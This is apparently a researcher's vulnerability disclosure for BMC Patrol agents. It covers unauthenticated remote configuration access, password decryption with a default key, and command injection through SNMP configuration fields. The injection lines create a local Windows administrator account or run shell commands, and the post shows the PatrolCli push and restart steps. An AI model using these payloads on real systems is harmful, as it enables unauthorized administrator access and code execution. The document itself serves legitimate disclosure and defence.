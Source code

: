 ```yaml
---
title: Vulnerabilities in BMC Patrol's agent remote configuration
---
```


Patrol's [default configuration](https://docs.bmc.com/docs/PATROLAgent/107/securing-patrol-agent-from-the-pconfig-clients-655597337.html) permits unauthenticated remote configuration access and modification:
![config](./Patrol/config.png)

If your organisation uses this default setting, it should be changed ASAP as this makes the agent subject to two unauthenticated vulnerabilities resulting in remote code execution.

Remote secrets leak using Patrol's pconfig (<22.1.00)
-----------------------------------------------------

The configuration is remotely queried using the ```pconfig``` binary. The configuration contains the encrypted password of the local Patrol user:
![get pass](./Patrol/get.png)

All Patrol instances before update 22.1.00 [use a default encryption key](https://gist.github.com/gquere/045638b9959f4b3e119ea01d8d6ff856).

Thus the password of the Patrol account can be decrypted:
![decrypt](./Patrol/decrypt.png)

A valid Patrol account can be used to authenticate to the service and remotely execute code:
![exec](./Patrol/exec.png)

This vulnerability is mitigated in versions >=22.1.00 since the encryption key has been diversified.


Remote code excution using Patrol's pconfig
-------------------------------------------

The agent's configuration can be remotely updated using the ```pconfig``` binary.

Remote code execution can be achieved by injecting commands in the masterAgentName field that is used to start the SNMP service.

For Windows:
```
"/snmp/masterAgentName" = { REPLACE = "cmd /c \"net user test_lol sup3rPASS! /add && net localgroup Administrators test_lol /add\" &&" },
"/snmp/masterAgentDir" = { REPLACE="bin/../../../Windows/system32/" },
```

Do note that the ```masterAgentDir``` path is relative and depends on Patrol's installation path. Usually this is under C:\BMC.

On Linux systems (according to my old notes, YMMV) it's a different parameter that leads to code execution:
```
"/snmp/masterAgentStartLine" = { REPLACE="/usr/bin/touch /tmp/snmp ; /usr/bin/touch /tmp/snmp2 & #" },
```

The configuration is pushed using the ```+Reload``` directive:
```
PatrolCli -host xxx +Reload /tmp/my_config
```

To maximize chances of success, only the new SNMP configuration should be pushed. Remotely overwriting other parts of the configuration may result in an **unrecoverable** remote DoS.

The agent needs to be remotely restarted for the modification to take effect:
```
PatrolCli -host xxx +RESTART
```

Editor response
---------------
According to the editor these are not a vulnerabilities.

Timeline
--------
2021: Vulnerabilities discovered  
2023-01: Editor contacted  
2023-02: Editor ACK  
2023-05: FD
